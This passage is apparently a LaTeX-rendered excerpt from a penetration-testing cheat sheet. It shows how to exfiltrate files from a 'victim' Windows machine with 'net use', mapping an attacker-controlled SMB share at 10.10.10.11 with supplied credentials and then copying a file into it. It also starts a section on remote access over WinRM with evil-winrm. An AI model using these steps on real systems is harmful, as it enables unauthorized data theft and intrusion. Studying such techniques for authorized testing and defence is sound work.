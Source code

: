 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\begin{document}
It can appear that this technic will not work because of \texttt{ERROR:\ The\ specified\ server\ cannot\ perform\ the\ requested\ operation.} error.
The solution here will be to assign a user and password for this share resource.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  On attacker machine

\begin{Shaded}
\end{Shaded}
\item
  On victim machine, create a logical unit binded to this shared resource

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{net use x: \textbackslash{}\textbackslash{}10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{\textbackslash{}smbFolder /user:looping looping}
\end{Highlighting}
\end{Shaded}
\item
  You can then copy the desired file directly into x: logical unit

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{copy}\NormalTok{ file.}\FunctionTok{txt}\NormalTok{ x:\textbackslash{}file.}\FunctionTok{txt}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{connection-throw-winrm-with-evil-winrm}{%
\section*{Connection throw WinRM with evil-winrm}\label{connection-throw-winrm-with-evil-winrm}}

If you have user credentials and the machine have port 5985 or WinRM running in another port, you can connect to the machine
with \textbf{evil-winrm} tool
\end{document}
